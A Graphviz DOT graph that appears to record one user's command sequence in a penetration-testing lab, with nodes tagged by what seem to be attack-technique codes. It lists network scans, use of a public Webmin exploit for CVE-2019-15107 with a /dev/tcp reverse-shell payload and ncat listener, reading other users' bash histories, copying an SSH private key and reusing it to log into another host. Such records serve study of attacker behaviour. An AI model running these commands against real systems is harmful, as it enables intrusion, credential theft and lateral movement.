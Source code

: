 // creating graph for user: 66
digraph {
	node [shape=box]
	0 [label="ifconfig U"]
	1 [label="nmao U"]
	2 [label="nmap A0 A1 "]
	3 [label="nmap A0 A1 "]
	4 [label="ifconfig U"]
	5 [label="nmap -h A0 A1 "]
	6 [label="curl U"]
	7 [label="ifconfig U"]
	8 [label="git clone github.com/jas502n/CVE-2019-15107 U"]
	9 [label="git clone https://github.com/jas502n/CVE-2019-15107 U"]
	10 [label="python CVE_2019_15107.py https://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	11 [label="ls A10 "]
	12 [label="ls -la A10 "]
	13 [label="drwx------  3 root root  4096 Apr  7 11:39 .gnupg U"]
	14 [label="drwxr-xr-x  3 root root  4096 Jul 15 09:27 .local U"]
	15 [label="drwxr-xr-x  2 root root  4096 Jul 15 09:27 Music U"]
	16 [label="drwxr-xr-x  2 root root  4096 Jul 15 09:27 Pictures U"]
	17 [label="git clone https://github.com/jas502n/CVE-2019-15107 U"]
	18 [label="cd U"]
	19 [label="ls A10 "]
	20 [label="cd CVE-2019-15107/ U"]
	21 [label="ls A10 "]
	22 [label="python CVE_2019_15107.py https://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	23 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	24 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	25 [label="sudo apt install ncat A1 A9 A11 A12 A17 "]
	26 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	27 [label="ncat -i 8080 A1 A9 A11 A12 A17 "]
	28 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	29 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	30 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'id' A13 "]
	31 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat ./.bash_history' M11 "]
	32 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/eva/.bash_history' M11 "]
	33 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/bob/.bash_history' M11 "]
	34 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/debian/.bash_history' M11 "]
	35 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls home/debian/' A10 A13 "]
	36 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/debian/' A10 A13 "]
	37 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la' A10 A13 "]
	38 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /home ; ls' A10 A13 "]
	39 [label="module.info.pt_BR.UTF-8 U"]
	40 [label="module.info.ru.UTF-8 U"]
	41 [label="module.info.ru_RU U"]
	42 [label="module.info.ru_RU.UTF-8 U"]
	43 [label="module.info.ru_SU U"]
	44 [label="module.info.sk U"]
	45 [label="module.info.sk.UTF-8 U"]
	46 [label="module.info.sv U"]
	47 [label="module.info.sv.UTF-8 U"]
	48 [label="module.info.tr U"]
	49 [label="module.info.zh_CN U"]
	50 [label="module.info.zh_TW.Big5 U"]
	51 [label="negativeacl U"]
	52 [label="openssl.cnf U"]
	53 [label="postinstall.pl U"]
	54 [label="save_acl.cgi U"]
	55 [label="save_group.cgi U"]
	56 [label="save_pass.cgi U"]
	57 [label="save_sql.cgi U"]
	58 [label="save_sync.cgi U"]
	59 [label="save_twofactor.cgi U"]
	60 [label="save_unix.cgi U"]
	61 [label="save_user.cgi A4 "]
	62 [label="schema.cgi U"]
	63 [label="switch.cgi U"]
	64 [label="system_info.pl U"]
	65 [label="twofactor.pl U"]
	66 [label="twofactor_form.cgi U"]
	67 [label="useradmin_update.pl A4 "]
	68 [label="webmin.schema U"]
	69 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /home ; ls -la' A10 A13 "]
	70 [label="rwxr-xr-x   6 root bin 12288 Jul  4  2019 . U"]
	71 [label="drwxr-xr-x 132 root bin 12288 Jul  4  2019 .. U"]
	72 [label="drwxr-xr-x   3 root bin  4096 Jul  4  2019 Authen-SolarisRBAC-0.1 U"]
	73 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd / ; ls -la' A10 A13 "]
	74 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	75 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/alice' A10 A13 "]
	76 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/alice' A10 A13 "]
	77 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/debian' A10 A13 "]
	78 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve' M10 "]
	79 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' M11 "]
	80 [label="ervices U"]
	81 [label="echo '81.2.195.254' >> ~/top-secret/too_dangerous.txt U"]
	82 [label="2.195.254 U"]
	83 [label="cat /etc/services M1 "]
	84 [label="less /etc/services A9 A11 A12 A17 "]
	85 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/bob/.bash_history' M11 "]
	86 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/bob' A10 A13 "]
	87 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' M11 "]
	88 [label="ssh 10.1.18.22 A16 "]
	89 [label="ssh 10.1.17.4 A16 "]
	90 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ssh eve@10.1.17.4' M16 "]
	91 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh' A1 A9 A11 A12 A13 A16 A17 "]
	92 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/' M10 "]
	93 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh' A1 A9 A11 A12 A13 A16 A17 "]
	94 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' M11 "]
	95 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/' M10 "]
	96 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/bob' A10 A13 "]
	97 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve' M10 "]
	98 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve/.ssh/' M10 "]
	99 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa' M12 "]
	100 [label="touch id_rsa U"]
	101 [label="nano id_rsa U"]
	102 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa.pub' M12 "]
	103 [label="touch id_rsa.pub U"]
	104 [label="nano id_rsa.pub U"]
	105 [label="ssh eve@10.1.17.4 M16 "]
	106 [label="cd .. U"]
	107 [label="ls A10 "]
	108 [label="cd .ssh A16 "]
	109 [label="ls A10 "]
	110 [label="ls -la A10 "]
	111 [label="chmod 600 id_rsa M15 "]
	112 [label="ls -la A10 "]
	113 [label="ssh eve@10.1.17.4 M16 "]
	114 [label="gpg2john id_rsa A14 "]
	115 [label="scp -r * eve@10.1.17.4:/home/eve/ U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	rankdir=LR
}

